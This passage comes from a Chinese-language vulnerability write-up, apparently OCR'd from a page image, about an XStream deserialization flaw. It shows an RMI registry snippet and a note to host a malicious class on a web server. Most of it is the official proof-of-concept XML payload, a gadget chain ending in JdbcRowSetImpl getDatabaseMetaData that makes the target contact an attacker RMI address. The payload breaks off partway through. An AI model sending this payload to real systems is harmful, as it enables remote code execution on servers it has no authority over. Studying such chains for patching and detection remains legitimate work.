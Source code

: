 ```bash
        registry.bind("exec", wrapper);
    }
}
```

test 是一个恶意类，在其对应的文件夹开启 web 服务  
POC：官方给出的 POC，需要修改其里面的 RMI 地址

```bash
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
                      <maxFieldSize>0</maxFieldSize>
                      <maxRows>0</maxRows>
```